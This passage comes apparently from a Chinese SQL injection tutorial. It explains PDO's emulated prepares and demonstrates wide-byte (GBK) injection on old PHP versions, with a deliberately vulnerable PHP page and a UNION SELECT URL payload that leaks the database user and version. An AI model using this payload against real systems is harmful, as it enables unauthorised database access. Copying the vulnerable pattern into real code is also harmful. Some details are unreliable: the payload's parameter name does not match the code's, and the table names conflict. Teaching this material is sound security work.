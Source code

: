 ```
Id   	Command    	Argument
------------------------
81 		Connect		root@localhost on errortest using TCP/IP
81 		Prepare		SELECT * from keepblue where id = ?
81 		Execute		SELECT * from keepblue where id = '1\'fa'
81 		Close 		stmt	
81 		Quit
```

如日志所示，整个流程分为五步，分别为连接、预编译、传入参数并执行、关闭预编译语句、退出。Java也面临同样的问题，虽然PreparedStatement名义上是SQL注入，但如果不深入了解，一般开发者并不会知晓其实所谓的预编译默认都是模拟预编译，即由PreparedStatement亲自将SQL语句转义为无危害的语句后，直接交由数据库执行。

那么既然默认情况下的模拟预编译是由PDO自行转义的，那么是否可能存在漏洞呢？是的，根据前文所介绍的内容，我们很容易就可以联想到宽字节注入。其实，在PHP 5.3.6之前，PDO确实存在宽字节注入的问题。为了方便同学们尝试，在这里放出较为完整的代码：

```php
<?php
$dbms = 'mysql';
$host = 'localhost';
$dbName = 'errortest';
$user = 'root';
$pass = 'root';
$dsn = "$dbms:host=$host;dbname=$dbName;charset=gbk";
highlight_file(__FILE__);
if (isset($_GET['id']))
    try {
        $dbh = new PDO($dsn, $user, $pass);
        $dbh->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
//        $dbh->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
        $dbh->query('SET NAMES GBK');
        echo "connect successful<br/>";
        $sql = 'SELECT * from keepblue where id = ?';
        echo $sql;
        $stmt = $dbh->prepare($sql);
        $stmt->bindParam(1, $_GET['id'], PDO::PARAM_INT);
        $stmt->execute();
        print_r($stmt->fetchAll()) ;
        $stmt = null;
        $dbh = null;
    } catch (PDOException $e){
        die ("Error!: " . $e->getMessage() . "<br/>");
    }
```

此时只需在地址栏中输入：

```html
http://localhost/pdo.php?name=%bf%27%20UNION%20SELECT%20user(),version()--%20a
```

页面上就会暴露出当前数据库用户名与数据库版本（由于使用了联合查询，要求前后SELECT的列数相同，这里的nowcoder表存在两列），成功实现了宽字节注入。此代码在LNMP、MySQL 5.5.62、PHP 5.2.17下实测成功。由于前文详细讲述了宽字节注入的原理及细节，在这里就不进行细讲了，有兴趣的同学可以找《PDO防注入原理分析以及使用PDO的注意事项》这篇文章来看。虽然这是PDO一个巨大的破绽，但其条件较为苛刻，仍使用PHP低版本且使用GBK作为数据库连接层字符集的场景应该已经不多了。

